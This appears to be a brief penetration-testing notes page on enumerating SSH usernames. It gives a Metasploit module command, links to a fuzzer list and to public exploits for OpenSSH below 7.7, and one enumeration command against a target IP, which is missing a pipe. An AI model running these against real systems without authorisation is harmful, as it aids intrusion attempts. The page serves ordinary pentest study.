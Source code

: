 ```yaml
---
cover: ../.gitbook/assets/SSH Penetration Testing.png
coverY: 0
---
```


# Usernames

```
msf> use scanner/ssh/ssh_enumusers
```

```
# SSH FUZZ
# https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt
```

```
```

## Enum users < 7.7:

{% embed url="https://www.exploit-db.com/exploits/45233" %}

{% embed url="https://github.com/CaioCGH/EP4-redes/blob/master/attacker/sshUsernameEnumExploit.py" %}

```
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/nullgrep "is a"
```
